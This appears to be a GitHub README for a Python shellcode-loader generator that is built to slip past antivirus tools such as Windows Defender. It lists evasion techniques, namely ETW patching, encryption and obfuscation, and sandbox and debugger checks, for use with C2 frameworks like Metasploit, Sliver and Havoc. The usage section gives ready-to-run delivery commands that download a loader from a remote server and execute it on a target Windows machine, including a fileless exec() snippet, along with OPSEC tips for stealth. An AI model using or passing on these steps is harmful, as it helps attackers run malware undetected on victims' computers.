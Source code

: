 ### Invoke-Python-ShellCodeLoader.py
--------------------------------------
'Invoke-Python-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Python script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Python)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress and LoadLibraryA)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit, Sliver and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Python script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\python-3.10.4> python.exe .\Invoke-Python-ShellCodeLoader.py ".\raw-shellcode.bin" ".\obfuscated_shellcodeloader.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Python script) on a target Windows computer

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated shellcode loader (Python script) 
```
1 - Download a signed portable Python 3 interpreter from 'www.python.org'.
    Example:
    PS C:\temp\python> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Python.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://website/obfuscated_shellcodeloader.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated shellcode loader (Python script) locally before execution.
```
1 - Download a signed portable Python 3 interpreter from 'www.python.org'.
    Example:
    PS C:\temp\python> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.py -OutFile C:\temp\python\obfuscated_shellcodeloader.py"
    C:\temp\python> python.exe .\obfuscated_shellcodeloader.py
```
  - Option C: Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe)
    Example:
    --------
    C:\Users\auditor\Documents> pip install pyinstaller
    C:\Users\auditor\Documents>  python3 -m pip install --upgrade pip
    C:\Users\auditor\Documents\python\pyinstaller-test> python3 -m PyInstaller -F script.py -i "file.ico" --noconsole
    C:\Users\auditor\Documents\python\pyinstaller-test> dir dist
    09/04/2025  11:54 PM         5,612,531 script.exe

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    The obfuscation and encryption allow to evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0

